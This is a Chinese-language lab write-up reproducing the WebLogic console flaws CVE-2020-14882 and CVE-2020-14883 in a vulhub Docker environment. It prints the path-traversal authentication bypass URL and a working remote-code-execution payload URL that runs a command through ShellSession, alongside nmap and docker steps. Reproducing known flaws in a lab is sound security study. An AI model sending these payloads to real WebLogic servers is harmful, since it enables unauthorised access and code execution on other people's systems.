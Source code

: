 # Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

## 漏洞原理

Oracle WebLogic Server 远程代码执行漏洞 （CVE-2020-14882）POC 被公开,未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限

## 影响版本

Oracle WebLogic Server，版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

![image-20220707152516893](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707152516893.png)

#### 信息收集

查看端口

```
docker ps
```

![image-20220707152645396](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707152645396.png)

使用nmap工具进行对网站服务的端口扫描

```
nmap -sS -Pn 192.168.177.128
```

![image-20220707152915777](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707152915777.png)

可看到目标主机开启了7001端口

### 漏洞利用

直接访问URL

![image-20220707153455592](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707153455592.png)

拼接/console后，发现后台登录页面

```
http://192.168.177.128:7001/console/
```

![image-20220707153143866](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707153143866.png)

首先通过CVE-2020-14882的权限绕过漏洞，未授权访问后台管理页面，通过以下URL访问

```
http://192.168.177.128:7001/console/css/%252e%252e%252fconsole.portal
```

成功绕过权限

![](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707153401456.png)

然后复现第二个漏洞 CVE-2020-14883，这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，另一个是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`，条件有限，仅演示第一种

构造payload

```
http://192.168.177.128:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/success1%27);%22)
```

该payload会在镜像容器里tmp文件夹下创建一个success1文件（本质上就是执行了exec括号里的命令）

![image-20220707154052337](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707154052337.png)

进入docker容器查看

```
docker exec -it 06f218ae2672 /bin/bash
```

![image-20220707154154632](Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）.assets/image-20220707154154632.png)

成功执行了命令创建了success1文件

### 关闭容器

```
docker-compose down
```

